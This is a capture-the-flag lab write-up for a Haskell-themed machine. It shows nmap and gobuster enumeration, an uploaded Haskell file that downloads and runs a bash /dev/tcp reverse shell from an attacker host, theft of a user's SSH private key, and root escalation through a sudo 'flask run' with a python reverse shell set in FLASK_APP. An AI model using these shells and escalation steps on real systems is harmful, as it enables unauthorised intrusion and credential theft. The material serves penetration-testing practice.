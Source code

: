 #### Replace the "ATTACK_IP" and the "ATTACK_PORT" with your own.

### user.txt

After an `nmap` scan, we see that there is a website running on port 5051:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/EXPLOITS/revshells]
└──╼ #nmap -A -p- TARGET_IP
Nmap scan report for TARGET_IP
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-title: Homepage
|_http-server-header: gunicorn/19.7.1
```

The owner of the website is a Haskell professor. In `/homework1`, we find that there is a place to upload and run Haskell files. The link however is broken, and leads to `/uploads`.
```
┌─[root@edu-virtualbox]─[/home/edu/THM]
└──╼ #gobuster dir -u http://10.10.52.226:5001/ -w /usr/share/wordlists/dirb/big.txt -x .hs,.txt,.bak,.html,.txt -q
/submit               (Status: 200) [Size: 237]
```

In the `/submit` directory, we find an endpoint to upload files to. The files will then be compiled and ran, and the output will be displayed.
So we try uploading a `bash` reverse shell
shell.sh:
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/ATTACKER_IP/ATTACK_PORT 0>&1
```
Then we open the listener in the same directory we placed `shell.sh`:
```
python3 -m http.server 80
```

Then, we upload the Haskell file:
```
import System.Process
main = do
	callCommand "wget http://ATTACK_IP/shell.sh"
	callCommand "chmod +x shell.sh"
	callCommand "./shell.sh"
```

This gives a reverse shell to the IP address, as the `flask` user.
The `flask` user also has access to the home directory of the `prof` user, where the `id_rsa` file can be found. (`/home/prof/.ssh/id_rsa`)
We copy this file to the attacker machine.

Using the `id_rsa` from the `prof` user, we log in: 
```
chmod 600 id_rsa
ssh -i id_rsa prof@TARGET_IP
```

### root.txt

Then, we run `sudo -l`:
```
$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

`flask run` runs the python script in the environment variable `FLASK_APP`.
This runs as root, so we can create `bad_stuff.py`:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACK_IP",ATTACK_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

To run the exploit, we use:
```
export FLASK_APP=/tmp/bad_stuff.py //Put a reverse shell in bad_stuff.py
sudo /usr/bin/flask run
```
For root.